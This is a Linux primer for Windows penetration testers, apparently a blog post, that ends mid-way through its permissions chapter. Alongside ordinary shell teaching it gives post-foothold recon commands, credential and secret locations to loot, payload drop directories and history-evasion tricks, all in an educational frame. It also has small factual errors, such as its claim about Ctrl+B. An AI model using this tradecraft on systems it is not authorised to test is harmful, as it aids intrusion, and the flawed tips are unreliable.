

+++
title = 'Linux Primer for the Windows Pentester'
date = 2026-10-28T00:00:00Z
draft = false
description = "Linux translated into the Windows concepts a pentester already owns: every idea anchored to its closest counterpart, then the one difference that actually bites."
tags = ['linux', 'kali', 'pentest', 'primer', 'cheatsheet', 'windows']
toc = true
+++

> **🪟 Who this is for**
>
> You already own Windows: cmd, PowerShell, Active Directory, Task Manager, Event Viewer, `services.msc`, the Registry, NTFS ACLs, `netsh`, `winget`. You have little or no Linux. This primer translates Linux into terms you already hold, so you spend your time *doing the job in Kali* instead of relearning an operating system. Every concept is anchored to its closest Windows counterpart, then paired with the one difference that actually bites.

> **ℹ️ How to read this**
>
> Start with **[0 Day one the twelve commands that unstick you](#0-day-one-the-twelve-commands-that-unstick-you)** and **[1 The landmines read before you touch anything](#1-the-landmines-read-before-you-touch-anything)** — ten minutes that pre-empt most of the painful failures. Then read **[2 The mental model](#2-the-mental-model)** and **[3 Terminal and shell survival](#3-terminal-and-shell-survival)** in order; they unlock everything after them. The rest are reference chapters you can jump to. Each chapter ends with a focused Windows↔Linux table. The whole thing is built to be grepped and kept.
>
> **The labels you'll see throughout:**
> - 🪟 **From Windows** — the analogy and the sharp difference.
> - 🎯 **Pentest angle** — why an operator cares.
> - ⚠️ **Trap** — a Windows reflex that misfires here.
> - ⛔ **Footgun** — destructive, silent, and irreversible.
> - 💡 **Tip** — a habit or shortcut worth stealing.

> **ℹ️ One kernel, many distros — about the Kali examples**
>
> "Linux" comes in a lot of flavors, and this primer uses **Kali** for every concrete example. Don't let that mislead you: the mental model, the filesystem, permissions, processes, `bash`, the core text tools, and SSH are the same across every mainstream distro — Debian, Ubuntu, Fedora/RHEL, Arch. What actually differs is small and predictable: the **package manager** (Kali/Debian/Ubuntu use `apt`, Fedora/RHEL use `dnf`, Arch uses `pacman`), a handful of service and path details, and Kali's own conveniences (the curated toolset, the default `kali` user). Treat the `apt` lines and anything explicitly Kali-specific as *the example*, not gospel — everything else transfers as written.

---

## Table of contents

- [0 Day one the twelve commands that unstick you](#0-day-one-the-twelve-commands-that-unstick-you)
- [1 The landmines read before you touch anything](#1-the-landmines-read-before-you-touch-anything)
- [2 The mental model](#2-the-mental-model)
- [3 Terminal and shell survival](#3-terminal-and-shell-survival)
- [4 The filesystem one tree no drive letters](#4-the-filesystem-one-tree-no-drive-letters)
- [5 Files text and the pipeline](#5-files-text-and-the-pipeline)
- [6 Users groups permissions and sudo](#6-users-groups-permissions-and-sudo)
- [7 Software and packages apt](#7-software-and-packages-apt)
- [8 Processes and services](#8-processes-and-services)
- [9 Networking](#9-networking)
- [10 Remote access and file transfer](#10-remote-access-and-file-transfer)
- [11 A bash scripting primer](#11-a-bash-scripting-primer)
- [12 Logs scheduling and the kernel](#12-logs-scheduling-and-the-kernel)
- [13 Capstone the first five minutes on a shell](#13-capstone-the-first-five-minutes-on-a-shell)
- [Appendix the pocket card](#appendix-the-pocket-card)

---

## 0 Day one the twelve commands that unstick you

If you learn nothing else before opening a terminal, learn these. They remove the dozen failures that make a Windows person feel helpless in Kali.

> **💡 The twelve**
>
> 1. **Tab completion.** Press `Tab` constantly — it completes commands, paths, and filenames, fixes the capitalization to match disk, and escapes spaces for you. It kills the #1 error (`No such file or directory` on a file you can see).
> 2. **`sudo !!`** re-runs the last command with `sudo` after a "Permission denied". **`Ctrl+R`** reverse-searches your history; **`!$`** reuses the last argument of the previous command.
> 3. **`ip a`** finds your own attack IP (watch for `tun0` on a VPN) and **`ip r`** your routes — do this *before* setting up any reverse shell. **`ss -tulpn`** shows listening ports. (These replace `ipconfig`, `route print`, `netstat -ano`.)
> 4. **`python3 -m http.server 8000`** stands up an instant web server in the current directory — the universal way to move tools onto / loot off a box. Pull with `wget`/`curl` on the far end.
> 5. **`chmod +x ./tool && ./tool`** makes a download runnable, and the mandatory `./` runs it (the current directory is *not* on your PATH). Sidestep a missing execute bit or a `noexec` mount with `bash x.sh` / `python3 x.py`.
> 6. **`man cmd`**, **`cmd --help | less`**, **`apropos keyword`** — docs are local and offline. `q` quits the pager. `Esc` then `:q!` escapes `vim` if you get trapped.
> 7. **`find / -name foo 2>/dev/null`** locates files; **`grep -rin pattern .`** searches *inside* files. Always append `2>/dev/null` to strip permission-denied noise. (Linux `find` ≠ Windows `find`; text-in-files is `grep`.)
> 8. **The post-foothold one-liner:** `id; sudo -l; find / -perm -4000 -type f 2>/dev/null; cat /etc/passwd` maps your privileges and the obvious privesc paths in seconds.
> 9. **`systemctl status|start|stop <svc>`** plus **`ps aux | grep x`** and **`kill`/`pkill`** — start services you need (ssh, postgresql, apache2) and triage processes. This is your `services.msc` + Task Manager.
> 10. **`tmux`** runs long scans in a session that survives a dropped SSH or a closed window (detach `Ctrl-b d`, reattach `tmux attach`).
> 11. **`sudo apt update && sudo apt full-upgrade`** is the one habit that actually patches Kali. `apt update` *alone changes nothing*.
> 12. **Control keys:** `Ctrl+Shift+C` / `Ctrl+Shift+V` copy/paste in a terminal, `Ctrl+C` **cancels** the running command (it does **not** copy), `Ctrl+L` clears the screen, `Ctrl+Z` suspends a job (resume with `fg`), `Ctrl+B` backgrounds and starts a suspended job, `Ctrl+D` sends end-of-input / logs out.

---

## 1 The landmines read before you touch anything

These are the irreversible or silent failures. Windows protected you from most of them; Linux does not.


> **⛔ `rm` has no Recycle Bin — and `rm -rf` is `format` with no prompt**
>
> `rm file` deletes permanently: no Recycle Bin, no undo, no "Are you sure?". `rm -rf dir` deletes an entire tree instantly and silently. Because the **shell expands wildcards first**, a stray space turns `rm -rf ./tmp` into 
> `rm -rf / tmp` — wiping the system. Treat `rm -rf` with the respect you give `format`. Use `rm -i` for a `del /p`-style prompt while you build the habit.

> **⛔ `>` overwrites instantly, with no warning**
>
> `cmd > file` destroys whatever was in `file` the moment you press Enter. One `>` where you meant `>>` (append) silently erases a file. Group this with `rm` as the "destructive and silent" pair.

> **⛔ As root there are no guardrails at all**
>
> `root` (the superuser) bypasses *every* permission check with no UAC-style prompt and no confirmation. Run day-to-day as the `kali` user and elevate one command at a time with `sudo`. A destructive command as root just executes. Also: running everything as root hides permission bugs and gives misleading results — always test a target's access as the *real* low-privilege user.

> **⚠️ Everything is case-sensitive**
>
> `Downloads`, `downloads`, and `DeskTop` are three different names; `ls` works, `LS` does not. `No such file or directory` on a file you can see almost always means wrong case. Lean on `Tab`.

> **⚠️ You must type `./` to run a program in the current directory**
>
> The current directory is deliberately **not** on your `PATH` (a security decision). Typing `exploit.sh` gives "command not found"; you must type `./exploit.sh` — and set the execute bit first with `chmod +x`. This bites everyone the first time they download a tool.

> **⚠️ A file runs because of its execute bit, not its name**
>
> There is no `.exe`. A fresh download has no execute permission and won't run until `chmod +x`. "Permission denied" (you lack the `x` bit, or the mount is `noexec`) is a *different* failure from "command not found" (not on PATH) — Windows blurs the two.

> **⚠️ `apt update` does not update your software**
>
> It only refreshes the catalog of what's available. To actually install newer versions you run the *separate* `apt upgrade` (or `full-upgrade`). Windows' single "Check for updates" button conflates the two, so Windows people run `apt update`, see nothing change, and wrongly assume they're patched.

> **⚠️ Windows line endings (CRLF) silently break scripts and keys**
>
> A script saved by a Windows editor fails with `/bin/bash^M: bad interpreter` or `$'\r': command not found`, and pasted configs/keys mysteriously won't parse. Fix the editor to use LF, or run `dos2unix file` (or `sed -i 's/\r$//' file`).

> **⚠️ `sudo` does not carry your shell's redirection or environment**
>
> `sudo echo x > /etc/file` **fails** — the `>` runs in *your* shell (unprivileged) before `sudo` ever elevates. Use `echo x | sudo tee /etc/file`, or `sudo sh -c 'echo x > /etc/file'`. `sudo` also resets `PATH` and strips most environment variables, so an exported var or a `/usr/local` tool can be invisible under `sudo`.

> **⚠️ SSH refuses an over-permissive private key**
>
> Copy a key off a box and `ssh -i key user@host` fails with "UNPROTECTED PRIVATE KEY FILE" until you `chmod 600 key` (and `~/.ssh` should be `700`). Guaranteed day-one wall.

> **⚠️ Closing the terminal or dropping SSH kills your running jobs**
>
> A long `nmap`/`hashcat` dies on disconnect (the shell sends `SIGHUP` to its children). Run it under **`tmux`**/`screen`, or `nohup cmd & disown`.

> **⚠️ Single vs double quotes change what a command targets**
>
> `'single'` is fully literal — no `$var`, no `*` glob, no `$()`. `"double"` expands variables but keeps the result as one token. Unquoted splits on whitespace and globs. `grep '$x' file` never expands `$x`; `grep "$x" file` does.

---


## 2 The mental model

The real shift from Windows is not vocabulary, it is philosophy. **Windows hides its internals** behind the Registry, WMI, sealed services, and signed binaries; you script *around* it. **Linux lays itself out as plain text and small chainable programs** you are expected to read, edit, and recombine. That openness is exactly why nearly the entire offensive-tooling ecosystem lives here, and why a bare text shell — not a GUI — is what you land in after an exploit.

### Kernel vs distribution, and where Kali fits

"Linux" is strictly the **kernel** (drives hardware, schedules processes, enforces permissions, presents the filesystem). A **distribution** is the whole shippable OS: that kernel plus the GNU userland, a package manager, an installer, and defaults. Debian, Ubuntu, Fedora/RHEL, Arch, and SUSE are different distros over the same kernel family. **Kali** is a Debian derivative from OffSec that tracks Debian Testing as a *rolling release*, curates ~600 security tools, and ships a kernel patched for wireless injection.

```bash
uname -r              # kernel version only
uname -a              # kernel + architecture + build
cat /etc/os-release   # which distro and version this actually is
```

> **🪟 From Windows**
>
> Windows editions (Home/Pro/Enterprise/Server) are one vendor shipping one engine with features toggled. Linux distros are *different vendors* shipping the same engine with entirely different userland, package tooling, and file layout. **Trap:** unlike Windows editions, distros do **not** share a package manager or always agree on paths — Kali/Debian/Ubuntu use `apt`; RHEL/Fedora use `dnf`. An install command copied from a RHEL blog will not work on Kali.

### "Everything is a file"


Linux models nearly every resource as a file-like object you touch with the same handful of tools: regular files and directories, yes, but also disks (`/dev/sda`), the terminal (`/dev/tty`), live kernel and process state (`/proc`, `/sys`), and more. So `cat`, `grep`, `dd`, and redirection (`>`, `<`, `|`) work uniformly across all of it.

> **🪟 From Windows**
>
> Windows exposes each of these through a *different* API and tool: disks via `\\.\PhysicalDrive0` and `diskpart`, config via `regedit`, processes via Task Manager/WMI — each with its own access model. On Linux one toolset touches all of it. There is no separate "registry editor" or "process API" to learn; it is `cat` and `grep` against paths.

> **🎯 Pentest angle**
>
> `/proc` and `/dev` are recon and privesc gold. `/proc/<pid>/environ` leaks secrets passed to a service, `/proc/<pid>/maps` and `mem` expose memory, and readable device files underpin disk imaging and raw packet work. Treat the filesystem as the API surface of the whole machine.

### root vs Administrator

`root` is **UID 0**, the unrestricted superuser — permission bits never stop it and there is no consent prompt. The number 0 is what makes root root, *not* the name. You escalate from a normal account on demand:

```bash
whoami        # current username
id            # uid, gid, and all group memberships (the real privilege picture)
sudo <cmd>    # run one command as root (prompts for YOUR password)
sudo -i       # become root interactively (a root login shell)
sudo -l       # what am I allowed to run as root? (recon + privesc)
```

> **🪟 From Windows**
>
> `root` ≈ Administrator **and** `NT AUTHORITY\SYSTEM` **and** TrustedInstaller rolled into one — but blunter: no UAC token split, no consent dialog. See **[6 Users groups permissions and sudo](#6-users-groups-permissions-and-sudo)** for the critical `sudo` (your password, authorized by `sudoers`) vs `su` (the target account's password — the true `runas` analog) distinction. Caveat: on hardened enterprise boxes, SELinux/AppArmor (mandatory access control, no everyday Windows equivalent) can still constrain even root.

### Transparent and scriptable

Config lives in readable text under `/etc`, logs as text under `/var/log` (or `journalctl`), and programs emit text you chain with pipes. Documentation is local and a keystroke away (`man`, `--help`). "Glue it together with a shell script" is the *default* reflex, not a last resort.

| Task | Windows | Linux |
|---|---|---|
| The all-powerful account | Administrator / SYSTEM | `root` (UID 0) |
| Run one command elevated | Run as administrator / `runas` | `sudo <cmd>` |
| Who am I | `whoami` | `whoami` ; `id` (full picture) |
| Where config lives | Registry (`regedit`, binary hive) | plain-text files under `/etc` |
| Where logs live | Event Viewer (`.evtx`, binary) | `/var/log/*` text ; `journalctl` |
| What makes a file runnable | `.exe` / `.bat` extension | the execute bit (`chmod +x`) |
| Install software | `winget install` / MSI | `sudo apt install <pkg>` |
| OS / kernel version | `winver` / `systeminfo` | `uname -a` ; `cat /etc/os-release` |
| Command help | `cmd /?` / `Get-Help` | `man cmd` / `cmd --help` |

---

## 3 Terminal and shell survival

On Windows you keep a mental wall between the interactive console and script files. In Linux that wall is gone: **the shell is both your prompt and your scripting language.** The terminal is just the window; the *shell* (`bash` for scripting, `zsh` interactively on Kali) is the interpreter inside it. A command is the first word (a program), then flags and arguments. Flags are short (`-l`) or long (`--all`) and case-sensitive. The prompt tells you who you are: trailing `$` = normal user, trailing `#` = root.

> **🪟 From Windows**
>
> This is `cmd.exe`/PowerShell, and the instinct to drive by typing is correct. The sharp difference: `bash` passes **untyped text/byte streams** between programs, not rich .NET objects like PowerShell's pipeline. No Verb-Noun cmdlets, no `Get-`/`Set-` discoverability, no object properties to dot into. You compose tiny text-filtering tools instead of calling methods — PowerShell's object-model muscle memory actively misleads you here.

### Copy, paste, and the control keys


This is the single most common reflex failure, so it goes first:

- **Copy/paste:** `Ctrl+Shift+C` / `Ctrl+Shift+V` (or select-to-copy, middle-click-paste). Plain `Ctrl+C` does **not** copy.
- **`Ctrl+C`** sends `SIGINT` — it **cancels/kills the running command**.
- **`Ctrl+Z`** suspends the current job (resume with `fg`). **`Ctrl+D`** sends end-of-input (ends `cat >`, logs you out at an empty prompt). **`Ctrl+L`** clears the screen (like `cls`).

### Work fast: tab completion and history

```bash
history 20                 # last 20 commands (≈ doskey /history, F7)
!!                         # re-run the last command (sudo !! is the classic)
!$                         # the last argument of the previous command
!nmap                      # re-run the last command that started with "nmap"
# Ctrl+R  → incremental reverse search of history; Ctrl+R again cycles, Enter runs
export HISTCONTROL=ignorespace   # a leading space keeps a command OUT of history
```

Press **`Tab`** to complete commands and paths; double-`Tab` lists candidates. `Up`/`Down` scroll previous commands. `Ctrl+R` reverse-search exists in PowerShell (PSReadLine) too, so that muscle memory carries straight over.

> **🎯 Pentest angle**
>
> `~/.bash_history` is written to disk on logout — one of the first files to read on a target (creds, hostnames, mount points) and to control on your own box. On Kali `HISTCONTROL=ignorespace` is often default, so a leading space before a command keeps it off disk; `unset HISTFILE` disables history for the session.

### Quoting and command substitution (the two that bite)

```bash
target="10.0.0.5"          # assignment: NO spaces around =
echo "$target"             # double quotes expand → 10.0.0.5, stays one token
echo '$target'             # single quotes are literal → prints $target
today=$(date +%F)          # $(...) runs a command and substitutes its output
file="my report.txt"
cat "$file"                # correct: one argument
cat $file                  # WRONG: unquoted → two args, "my" and "report.txt"
```

> **⚠️ Trap**
>
> PowerShell tolerates `$x = 10` with spaces and handles spaces in values for you. Bash does neither: `x = 10` tries to run a command named `x`, and an unquoted `$var` is word-split and glob-expanded. **When in doubt, double-quote.**

| Task | Windows | Linux |
|---|---|---|
| Copy / paste in the console | `Ctrl+C` / `Ctrl+V` | `Ctrl+Shift+C` / `Ctrl+Shift+V` |
| Cancel the running command | `Ctrl+C` | `Ctrl+C` |
| Clear the screen | `cls` | `clear` or `Ctrl+L` |
| Command history | `doskey /history` / F7 | `history` |
| Reverse-search history | `Ctrl+R` (PSReadLine) | `Ctrl+R` |
| Repeat last command | `↑` then Enter | `!!` |
| Which shell am I in | — | `echo $0` |
| Capture command output | `$(cmd)` (PS) | `$(cmd)` |

---

## 4 The filesystem one tree no drive letters

There is a single rooted tree whose top is `/` (say "root"). A second disk, a USB stick, or a share is **mounted** onto an empty directory somewhere under `/` — it does not become `D:`. Paths use forward slashes and are case-sensitive. The layout is standardized (the Filesystem Hierarchy Standard), so `/etc`, `/usr/bin`, `/var/log` mean the same on Kali, Debian, Ubuntu, and Red Hat.



> **⚠️ Three different "roots"**
>
> `/` (top of the tree), the **root user** (superuser, home at `/root`), and `/root` (that user's home directory) all share the name and are completely different things.

### The directories a pentester actually cares about

- **`/etc`** — system-wide config, almost all plain text. First stop in post-ex: `/etc/passwd` (accounts, world-readable), `/etc/shadow` (hashes, root-only), `/etc/sudoers`, `/etc/crontab` + `/etc/cron.d/`, `/etc/ssh/sshd_config`.
- **`/home/<user>`** and **`/root`** — dotfiles, SSH keys, shell history. `~/.ssh/`, `~/.bash_history`, `~/.aws`, `~/.config`, `.env`, `.git`.
- **`/var/log`** — logs (evidence, and what the defender sees). **`/var/www`** — web root and app config.
- **`/tmp`** and **`/dev/shm`** — world-writable; the standard payload drop zones.
- **`/proc/<pid>/`** — `environ` and `cmdline` frequently leak passwords passed to services.

> **🪟 From Windows**
>
> `/home` ≈ `C:\Users`, but `/root` lives at `/root`, **not** under `/home`. `/etc` ≈ the Registry + `C:\ProgramData` config — but it's a *folder of editable text files*, closer to a pile of per-app `.ini`/`.conf` files than to one binary hive with a schema; you read it with `grep` and edit with `nano`, never `regedit`. `/usr/bin` ≈ `System32`; `/opt` ≈ `C:\Program Files`; `/var/log` ≈ Event Viewer (but flat text you `tail`/`grep`); `/proc` & `/sys` ≈ what WMI/Task Manager surface (but as virtual files); `/dev` ≈ Device Manager (but each device is a readable file). **Trap:** a mounted volume is a *directory* (look it up with `lsblk`), not a letter.

### Navigation

```bash
pwd                 # print working directory — the unambiguous "where am I"
cd /var/log         # absolute move
cd ..               # up one level   (cd ../.. up two)
cd ~                # home   (bare `cd` also goes home — it does NOT print cwd like Windows)
cd -                # toggle back to the previous directory
ls -lah             # long listing, all (incl. hidden), human sizes
ls -la ~            # reveal dotfiles: .ssh, .bash_history, .config
```

> **⚠️ Trap**
>
> Bare `cd` in cmd *prints* the current directory; bare `cd` in Linux *sends you home*. Use `pwd`. And "hidden" is not an attribute — it just means the filename **starts with a dot**, revealed only by `ls -a`. A plain `ls` misses every piece of home-directory loot.

### Absolute vs relative, and the `./` rule

An absolute path starts at `/` and means the same everywhere; a relative path is resolved from where you are. `.` = here, `..` = parent. To run a program in the folder you're standing in you must type `./tool` — because the current directory is kept off `PATH` on purpose.

### Getting help

```bash
man ls              # full manual in a pager: / to search, n next, q to quit
man 5 passwd        # the FILE-FORMAT page (section 5), not a command
ls --help | less    # quick usage, paged
apropos password    # which installed commands relate to "password"
```

> **💡 Pager escape hatches**
>
> `man`/`less` open a scrolling pager — press **`q`** to quit (new users get stuck). Inside `vim`, press `Esc` then `:q!` to bail without saving. These two escapes save a surprising amount of panic.

### Finding things

```bash
which nmap                               # which binary PATH would run (≈ where.exe)
locate sshd_config                       # instant DB lookup (sudo updatedb if stale)
find / -name sshd_config 2>/dev/null     # live, always-current search by name
find / -perm -4000 -type f 2>/dev/null   # the classic SUID privesc sweep
grep -rin "password" /var/www 2>/dev/null# search INSIDE files
```

> **⚠️ The single biggest search trap**
>
> Linux **`find`** searches for files *by name/attributes*; it is **not** Windows `find`/`findstr` (which search *text inside* files). Searching inside files on Linux is **`grep`**. (The Windows "find files" job is `dir /s /b` or `Get-ChildItem -Recurse`.) Always append `2>/dev/null` to `find` to suppress the permission-denied flood.

| Task | Windows | Linux |
|---|---|---|
| Print current directory | bare `cd` / prompt | `pwd` |
| List files (detailed, incl. hidden) | `dir /a` | `ls -lah` |
| Change dir / up one / home / previous | `cd p` / `cd ..` / `cd %USERPROFILE%` / `pushd`,`popd` | `cd p` / `cd ..` / `cd ~` / `cd -` |
| Switch to another volume | `D:` | `cd /mnt/...` (mount point) |
| Run a program in the current dir | `name` | `./name` (`./` required) |
| Find an executable on PATH | `where tool` | `which tool` / `command -v tool` |
| Find a file by name (recursive) | `dir /s /b name` | `find / -name name 2>/dev/null` |
| Search text inside files | `findstr /s text *` | `grep -r text .` |
| Temp dir / user profiles / admin profile | `%TEMP%` / `C:\Users` / `…\Administrator` | `/tmp` / `/home` / `/root` |

---

## 5 Files text and the pipeline

Almost everything you configure, loot, or attack on Linux is a **plain-text file**, and a handful of sharp text tools chained with pipes become a general-purpose data language. The biggest mental shift from PowerShell: **Linux pipes carry raw TEXT (bytes), not typed objects.** There are no properties to select; every stage re-slices text with `grep`/`cut`/`awk`/`sed`.

### Viewing and editing


```bash
cat file                    # dump a whole (small) file       ≈ type
less /etc/ssh/sshd_config   # page: / search, n next, q quit  (far better than more)
head -n 20 file             # first 20 lines                  ≈ Select-Object -First
tail -n 20 file             # last 20 lines
tail -f /var/log/auth.log   # LIVE-follow a log               ≈ Get-Content -Wait
nano file.conf              # friendly editor: Ctrl+O save, Ctrl+X exit
vim file.conf               # modal: i=insert, Esc, :wq save, :q! bail
```

> **🪟 From Windows**
>
> `cat`≈`type`, `less`≈ a `more` that can scroll *backward* and search, `head`/`tail`≈ `Select-Object -First/-Last`, `tail -f`≈ `Get-Content -Wait -Tail 10`. **Trap:** over SSH there is no Notepad — you must know `nano` (friendly) or survive `vim`. No GUI editor is coming.

### Managing files — and the `rm` landmine

```bash
cp src dst            # copy (cp -r for a directory tree)
mv old new            # RENAME is the same command as move
rm file               # delete — NO Recycle Bin, NO undo, NO prompt
mkdir -p a/b/c        # create nested dirs in one shot
rm -rf dir            # recursive force-delete: see the Footgun in §1
```

> **⚠️ Trap**
>
> Linux has no separate rename command — `mv old new` both renames and moves. And `rm` *never* uses a Recycle Bin, unlike an Explorer delete. Use `rm -i` for confirmation.

### Redirection, pipes, and `/dev/null`

Every process has three channels: **stdin** (0), **stdout** (1), **stderr** (2).

```bash
nmap -p- host > scan.txt     # stdout to file (OVERWRITES)
echo run2 >> scan.txt        # append
tool 2>/dev/null             # discard errors (the permission-denied flood)
cmd &> all.log               # both stdout and stderr to one file
cmd1 | cmd2 | cmd3           # pipe: cmd1's stdout → cmd2's stdin → …
command | tee out.log        # see output AND save it (≈ Tee-Object)
```

> **🪟 From Windows**
>
> `>`, `>>`, `2>`, `2>&1` behave the same as cmd, and `/dev/null` is cmd's `NUL`. The shift is away from **PowerShell**, where `|` passes live objects: here `| grep x` replaces `| Where-Object {$_.Name -eq 'x'}`, and you re-parse text at every stage.

### The text toolkit

```bash
grep -rin "api_key" /var/www        # recursive, case-insensitive, with line numbers
grep -v nologin$ /etc/passwd        # INVERT: lines that do NOT match
grep -oE '([0-9]{1,3}\.){3}[0-9]{1,3}' scan.txt   # pull IPs out of any output
sed 's/old/new/g' in > out          # stream find-and-replace (prints; does not edit!)
sed -i 's/debug/info/g' app.conf    # edit the file IN PLACE (dangerous; sed -i.bak keeps a backup)
cut -d: -f1 /etc/passwd             # field 1, colon-delimited → usernames
awk -F: '$3>=1000{print $1}' /etc/passwd   # real (non-service) users; awk handles runs of whitespace
sort -n nums | uniq -c | sort -rn   # numeric sort → frequency count → ranked
wc -l hosts.txt                     # count lines (the reflexive "how many?")
tr 'a-z' 'A-Z' < file               # translate CHARACTERS (reads stdin ONLY)
```

> **⚠️ Three traps in the text tools**
>
> - **`cut`'s default delimiter is a TAB**, not a space — set `-d":"` explicitly, and reach for `awk` when fields are separated by *runs* of whitespace.
> - **`sort` is lexicographic by default** (so `105` sorts before `8`) — add `-n` for numbers. **`uniq` only collapses *adjacent* duplicates**, so it's almost always `sort | uniq`.
> - **`tr` takes no filename** — `tr a b file` just hangs waiting on stdin. Pipe into it or use `< file`. And `tr` is per-*character* translate (`.ToUpper()`), **not** PowerShell `-replace`; string/regex replacement is **`sed`**.

### Globbing — the shell expands it, not the program

`*` = any run of chars, `?` = exactly one, `[a-z]` = a range. The non-obvious rule: **the shell expands the glob into a list of real filenames *before* the command runs.** `rm *` is handed `rm file1 file2 file3`. To pass a literal pattern to a tool, quote it: `find /etc -name '*.conf'`. `*` does **not** match hidden dotfiles.

### Chaining — and why `&` is dangerous

```bash
cmd1 ; cmd2            # run in sequence regardless of success
cmd1 && cmd2           # run cmd2 only if cmd1 SUCCEEDED (exit 0)
cmd1 || cmd2           # run cmd2 only if cmd1 FAILED
nmap -p- host &        # a single trailing & BACKGROUNDS the job
echo $?                # exit status of the last command (0 = success)
```

> **⚠️ Trap**
>
> In **cmd**, `&` chains commands and `;` is just a character. In **Linux** it's the reverse: `;` chains, and a lone trailing `&` *backgrounds* the job. `cmd1 & cmd2` expecting sequential execution instead detaches `cmd1`.

### Archives and compression (how you extract everything)

Tools and wordlists ship as `.tar.gz` ("tarballs") or `.zip`. Critically, **`tar` only bundles; `gzip` compresses** — `.tar.gz` is tarred *then* gzipped.

```bash
tar -xzvf tool.tar.gz            # eXtract gZipped Verbose File  (modern tar: tar xf auto-detects)
tar -czvf out.tar.gz dir/        # Create a gzipped archive of dir/
tar -tzvf file.tar.gz            # list contents without extracting
gunzip -k /usr/share/wordlists/rockyou.txt.gz   # rockyou ships GZIPPED; -k keeps the .gz
unzip archive.zip                # (zip/unzip may need: sudo apt install zip unzip)
```

> **🎯 Pentest angle**
>
> Kali's `rockyou.txt` lives at `/usr/share/wordlists/rockyou.txt.gz` — point a cracker at the `.gz` and it fails until you `gunzip` it. Mnemonic for extract: `tar xf` ("x-tract file").

### Symbolic links

```bash
ln -s /real/target linkname      # symbolic link: ls -l shows  linkname -> /real/target
```

> **🪟 From Windows**
>
> A symlink ≈ `mklink` — but a Windows `.lnk` **shortcut is not a symlink**: only Explorer understands `.lnk`, whereas a symlink is followed transparently by the kernel and *every* program as if it were the real path. Directory symlinks ≈ junctions. This is why `/bin` → `/usr/bin` works invisibly (the "usr-merge"), and why symlink/TOCTOU tricks matter for privesc.

| Task | Windows | Linux |
|---|---|---|
| Show a whole file / page it | `type` / `more` | `cat` / `less` |
| First/last N / live-follow | `-First`/`-Last` / `Get-Content -Wait` | `head -n N` / `tail -n N` / `tail -f` |
| Copy / rename / move | `copy` / `ren` / `move` | `cp` / `mv old new` / `mv` |
| Delete file / tree (no recycle) | `del` / `rd /s /q` | `rm` / `rm -rf` |
| Redirect stdout / errors / both | `> f` / `2>nul` / `> f 2>&1` | `> f` / `2>/dev/null` / `&> f` |
| Save and display a stream | `Tee-Object` | `tee` |
| Search text in files | `findstr /sin` / `Select-String` | `grep -rin` |
| Find & replace in text | `(gc f) -replace 'a','b'` | `sed 's/a/b/g'` (`-i` edits file) |
| Extract a column / sort+dedup | `-split`/`Sort-Object -Unique` | `cut -d: -f1` / `sort -u` |
| Run next only if prev succeeded/failed | `&&` / `\|\|` | `&&` / `\|\|` |
| Run in sequence / in background | `cmd1 & cmd2` / `start /b` | `cmd1 ; cmd2` / `cmd &` |
| Extract an archive | right-click → Extract | `tar -xzvf f.tar.gz` / `unzip f.zip` |

---

## 6 Users groups permissions and sudo

Windows protects objects with rich NTFS ACLs: a long, ordered list of Allow/Deny entries per SID, with inheritance. Classic Linux permissions are deliberately tiny: every file has exactly **one owning user, one owning group, and three bits** (read/write/execute) for each of **owner (u), group (g), other (o)**. That is the whole model for most files.

### Reading `ls -l`

```
-rwxr-xr--  1  kali  staff  479  Jan 19 15:37  tool
│└┬┘└┬┘└┬┘      │     │
│ │  │  └ other:  r--        (read only)
│ │  └── group:  r-x        (read + execute)
│ └───── owner:  rwx        (read + write + execute)
└──────── type:  - file, d dir, l symlink
```

A trailing `+` on the mode means extra POSIX ACL entries exist (`getfacl` to see them); a trailing `.` means an SELinux context is attached.

> **🪟 From Windows**
>
> ≈ reading `icacls file` or the Security tab. **Difference:** NTFS stacks many Allow/Deny ACEs for many SIDs with ordering and inheritance; classic Linux gives you one owner, one group, and "everyone else", each with only r/w/x — no per-user Deny, no ACE ordering. (`setfacl` adds multi-principal ACLs, but it's the exception.) On a **directory**, `x` means "may enter/traverse (`cd` into)" and `r` means "may list names" — a split with no clean Windows parallel.

### The execute bit and `chmod`

A file runs only if its `x` bit is set, and then only if it's a valid binary or a text file with a shebang. Fresh downloads arrive without `x`.

```bash
chmod +x ./tool        # add execute (symbolic, additive)
chmod 755 script.sh    # octal: rwx r-x r-x  (owner 7, group 5, other 5)
chmod 640 secret.txt   # rw- r-- ---
chmod -R g+rX /srv     # recurse; capital X = execute only on dirs/already-executables
```

Octal sums **r=4, w=2, x=1** per triplet: `7`=rwx, `6`=rw-, `5`=r-x, `4`=r--.

> **⚠️ Trap**
>
> Octal `chmod` is an **absolute overwrite** of all nine bits — `chmod 644` silently strips any execute you had. Symbolic `chmod u+x` is the relative, additive form that matches the Windows "just add one more right" reflex. And `chmod 777` is the equivalent of granting *Everyone Full Control* — almost always a real vulnerability, not a quick fix. Bypass a missing `x` bit when you only have read with `bash script.sh` / `python3 script.py`; watch for `noexec` mounts on `/tmp`.

### Ownership, and the subtractive `umask`

```bash
sudo chown user:group file    # set owner AND group (only root can GIVE a file away)
chgrp group file              # change group (must be one you belong to)
umask                         # the default-permission filter for THIS shell (e.g. 0022 → 644 files, 755 dirs)
```

> **⚠️ `umask` has no clean Windows analog**
>
> It is **not** NTFS inheritance. NTFS inheritance is *additive* and flows from a folder's ACL down the tree. `umask` is a per-process **subtractive** default-deny filter: it masks bits *off* a fixed base (666 files / 777 dirs), travels with your shell session, and never touches existing files. Files never gain `x` from the base, which is why a new script still needs `chmod +x`.

### Special bits: SUID, SGID, sticky

Three extra bits sit above the normal nine. **SUID** (octal `4xxx`) on an executable makes it run with the *file owner's* privileges — so a SUID-root binary runs as root for *any* caller (`ls -l` shows `s` in the owner's `x` slot, e.g. `-rwsr-xr-x` on `/usr/bin/passwd`). **SGID** (`2xxx`) does the same with the group. The **sticky bit** (`1xxx`, shown `t`) on a world-writable directory means only a file's owner can delete it — that's what makes `/tmp` safe.

> **🪟 From Windows**
>
> SUID is *not* a LocalSystem service (which already runs as SYSTEM continuously). It's a **file that re-elevates on *each* launch, for *every* caller, with no consent UI** — the accurate cousin is an EXE with an auto-elevate manifest, baked into the file forever. The lesson is the "no UAC prompt" part.

> **🎯 Pentest angle**
>
